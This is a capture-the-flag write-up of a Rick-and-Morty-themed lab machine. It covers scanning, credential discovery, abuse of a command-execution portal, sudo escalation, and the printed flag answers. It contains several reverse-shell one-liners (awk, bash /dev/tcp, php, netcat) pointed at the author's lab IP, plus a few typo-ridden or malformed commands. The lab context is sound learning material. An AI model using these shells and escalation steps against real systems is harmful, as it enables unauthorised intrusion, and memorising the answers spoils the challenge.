 ``IP Address = 10.10.12.75``

# Nmap Scan Result

## Open Ports:

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

### Operating System: Ubuntu


Command: `nmap -sTV -O -sC {IP Address}`


### Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.12.75
+ Target Hostname:    10.10.12.75
+ Target Port:        80
+ Start Time:         2021-05-02 01:37:19 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-05-02 02:31:46 (GMT-4) (3267 seconds)
------------------------------------------------------------------
```

Command Syntax: `nikto -host http://{IP Address}`


## Target WebServer Enumeration

Main page of the website have comment on its source code that is 

Username: `R1ckRul3s`

that looks usefull. target website page or subdirectry robots.txt have rendom string that is`Wubbalubbadubdub`This is Suspicious  

## Directry Scanning 

**/assets**
this have some Common Thing use in website nothing more
**robots.txt**

As nikto finds `login.php` so go for it.They required username and password we found username and some rendom string try for it 

It works and they provide some command execution portal and this is vulnerable and good for us

Use ls and there is first ingreden `Sup3rS3cretPickl3Ingred.txt` use cat to view the content of the file. looks they use some filters for command so how we see the content of the file. There are some other command also like `more`,`head`,`tail`,`less` use it find which will works

There is not need for getting rev-shell but i can try to get reverse shell for furthure Post Exploitation

## Getting reverse shell 

start a lisener on your machine with netcat and pawncat which you use

unfortunativly i can't get the reverse shell and 

but by checking the source code of the portal.php file i found some base64 encode string 

by decoding it this is "rabithole"

After try alot of reverse shell code i get connetion with this reverse shell code

``awk 'BEGIN {s = "/inet/tcp/0/10.8.186.33/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null``

now we can try to find other ingredent and they are in /home/rick directry its name is second ingredients
**Note: they have spaces in there name so use the quotes in the command for see this file like the following command**

``less /home/rick/"second ingredients"``

This give me reveseshell but this only replicat the webshell in your terminal this is not normal shell and there you use all commands that are terminate like cat,more,head. i try to gain proper reverse shell which the following code but i cant. php and netcat number 4 shell work but that are not that usefull.

```
1) bash -i >& /dev/tcp/10.8.186.33/5555 0>&1

2) php -r '$sock=fsockopen("10.8.186.33",5555);exec("/bin/sh -i <&3 >&3 2>&3");'

3) nc -e /bin/sh 10.8.186.33 5555

4) rm -f /tmp/p; mknod /tmp/p p && nc 10.8.186.33 5555 0/tmp/p
```

So, now i using the web shell for finding the ingredent so first i use the following command for suid 

``fing / -perm /4000 2>/dev/null``

They show me the following result 
```
/snap/core/5742/bin/mount
/snap/core/5742/bin/ping
/snap/core/5742/bin/ping6
/snap/core/5742/bin/su
/snap/core/5742/bin/umount
/snap/core/5742/usr/bin/chfn
/snap/core/5742/usr/bin/chsh
/snap/core/5742/usr/bin/gpasswd
/snap/core/5742/usr/bin/newgrp
/snap/core/5742/usr/bin/passwd
/snap/core/5742/usr/bin/sudo
/snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/5742/usr/lib/openssh/ssh-keysign
/snap/core/5742/usr/lib/snapd/snap-confine
/snap/core/5742/usr/sbin/pppd
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
/snap/core/6350/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ntfs-3g
/bin/ping
/bin/su
/bin/ping6
/bin/mount
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

There i see sudo have suid bit on by using this i can see the root folder igredent. first see what is the name of the file of third igredent using 

``/usr/bin/sudo ls -al /root``

Using this i come to know the file name is `3rd.txt` so just using the following command and i see the ingredent

`/usr/bin/sudo less /root/3rd.txt`




Here we find all the ingredent 
```
Q1:What is the first ingredient Rick needs?
A: mr. meeseek hair

Q2:Whats the second ingredient Rick needs?
A:1 jerry tear

Q4:Whats the final ingredient Rick needs?
A:fleeb juice
```
